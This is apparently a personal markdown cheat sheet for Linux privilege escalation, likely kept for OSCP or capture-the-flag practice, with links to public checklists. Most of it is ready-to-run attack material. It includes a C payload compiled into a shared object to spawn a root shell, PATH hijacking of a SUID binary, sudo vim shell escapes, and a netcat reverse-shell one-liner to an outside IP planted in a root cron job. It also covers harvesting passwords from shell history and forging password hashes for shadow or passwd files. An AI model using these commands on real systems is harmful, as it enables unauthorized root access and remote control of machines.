 - https://github.com/netbiosX/Checklists/blob/master/Linux-Privilege-Escalation.md
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md
- https://sushant747.gitbooks.io/total-oscp-guide/privilege_escalation_-_linux.html
- https://payatu.com/blog/a-guide-to-linux-privilege-escalation/

- ##### Find the binaries exploit: https://gtfobins.github.io/
### Enumeration

LinEnum.sh: https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh

bash version 
```
/bin/bash --version
```

using -p so permissions are preserved (gain root shell)
```
/bin/bash -p 
```
#### List commands that can be used 
```
sudo -l 
```
search for the program names here 
```
https://gtfobins.github.io/
```

###### History of commands (to check accidentally typed password  )
```
cat ~/.*history | less
```

#### SO Injection

C code to provoke root shell (later should be compiled to so)
```
int main() {
        setuid(0);
        system("/bin/bash -p");
}

```

Trace the file execution and grep the output (so injection)
```
strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"
```

Compile the c code to so
```
gcc -shared -fPIC -o /home/user/.config/libcalc.so /home/user/tools/suid/libcalc.c
```

##### Find SUID/SGID Files
```
find / -perm -u=s -type f 2>/dev/null
```
```
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```

##### PATH EV alteration for SUID binary file
Here the SUID binary is executing the ls command when the SUID binary is executed 
```
echo "/bin/bash" > /tmp/ls;
chmod +x /tmp/ls;
export PATH=/tmp:$PATH
```

##### NOPASSWD for VIM/VI
```
sudo vim -c '!/bin/bash'
```
OR
```
sudo vim
```
```
:!/bin/bash
```

##### Root CronJob in /etc/crontab
in cronjob file to invoke nc reverse shell
```
mkfifo /tmp/wtgw; nc 10.17.3.231 8888 0</tmp/wtgw | /bin/sh >/tmp/wtgw 2>&1; rm /tmp/wtgw
```

##### LinEnum Tool 
Link 
```
https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh
```

##### Password makers
for shadow file
```
mkpasswd -m sha-512 password
```
for passwd file
```
openssl passwd password 
```